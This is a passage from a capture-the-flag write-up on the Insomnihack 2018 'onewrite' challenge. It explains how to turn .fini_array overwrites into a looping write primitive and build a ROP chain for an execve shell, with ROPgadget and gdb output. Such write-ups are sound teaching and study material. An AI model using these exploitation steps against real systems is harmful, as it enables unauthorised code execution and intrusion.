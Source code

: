So we can see that the `.fini_array` is between `0x00007ffff7ff7fb0 - 0x00007ffff7ff7fc0` which gives us `0x10` bytes to work with. This will work for what we need to do. Also we can see it is mapped to a PIE region of memory between `0x00007ffff7ff7000 - 0x00007ffff7ffe000`, so using our infoleaks we know where `.fini_array` is.

So we will have two entries in the `.fini_array` that will give us two separate QWORD writes. We will use the first one to write what address we want, where we want it. The second write we will use to write the address of `__libc_csu_fini` (located at PIE offset `0x9810`) to the saved return address for `__libc_csu_fini`. Since `__libc_csu_fini`  is responsible for calling the functions in the `.fini_array`. So calling it will give us another run through the `.fini_array` entries.

Also since entries from the `.fini_array` are called in reverse order, we will want to write to the second entry first. Then we will write to the first entry, and when it is executed we will be able to restart the loop.

Also one more thing. Each time we call `__libc_csu_fini`, due to how the memory works the saved return address will shift the address that we use for `__libc_csu_fini` on the stack up by `0x8`. We can find the offset for it's return address the usual way (see where the return address is stored, and calculate the offset from our infoleak).

For the ROP gadget, turns out the binary has all of the gadgets needed to pop a shell. So we won't be needing to use gadgets from libc.

A lot of the output from these commands were omitted for the sake of making it look readable:
```
$ python ROPgadget.py --binary onewrite | grep "pop rdi"
0x00000000000084fa : pop rdi ; ret
$ python ROPgadget.py --binary onewrite | grep "pop rsi"
0x000000000000d9f2 : pop rsi ; ret
$ python ROPgadget.py --binary onewrite | grep "pop rdx"
0x00000000000484c5 : pop rdx ; ret
$ python ROPgadget.py --binary onewrite | grep "pop rax"
0x00000000000460ac : pop rax ; ret
$ python ROPgadget.py --binary onewrite | grep "syscall"
0x0000000000073baf : syscall
$ python ROPgadget.py --binary onewrite | grep "add rsp"
```

The `add rsp` gadget at the end we will cover later. However we can see that we have all of the gadgets we need to make an `execve` syscall from just using gadgets from the `PIE` section of memory. For writing the string `/bin/sh\x00` we can just use the QWORD write loop to write that to memory. Looking through the memory, we find a place that might work to write `/bin/sh` in the bss:

```
gef➤  vmmap
Start              End                Offset             Perm Path
0x00007fd53eb27000 0x00007fd53ebd5000 0x0000000000000000 r-x /Hackery/pod/modules/stack_pivot/insomnihack18_onewrite/onewrite
0x00007fd53edd4000 0x00007fd53eddb000 0x00000000000ad000 rw- /Hackery/pod/modules/stack_pivot/insomnihack18_onewrite/onewrite
0x00007fd53eddb000 0x00007fd53eddc000 0x0000000000000000 rw-
0x00007fd53f879000 0x00007fd53f89c000 0x0000000000000000 rw- [heap]
0x00007ffee6f8d000 0x00007ffee6fae000 0x0000000000000000 rw- [stack]
0x00007ffee6fd6000 0x00007ffee6fd9000 0x0000000000000000 r-- [vvar]
0x00007ffee6fd9000 0x00007ffee6fda000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  info files
Symbols from "/Hackery/pod/modules/stack_pivot/insomnihack18_onewrite/onewrite".
Native process:
  Using the running image of attached process 8583.
  While running this, GDB does not access memory from...
Local exec file:
  `/Hackery/pod/modules/stack_pivot/insomnihack18_onewrite/onewrite', file type elf64-x86-64.
  Entry point: 0x88b0
  0x00007ffee6fd9120 - 0x00007ffee6fd915c is .hash in system-supplied DSO at 0x7ffee6fd9000
  0x00007ffee6fd9160 - 0x00007ffee6fd91a8 is .gnu.hash in system-supplied DSO at 0x7ffee6fd9000
  0x00007ffee6fd91a8 - 0x00007ffee6fd9298 is .dynsym in system-supplied DSO at 0x7ffee6fd9000
```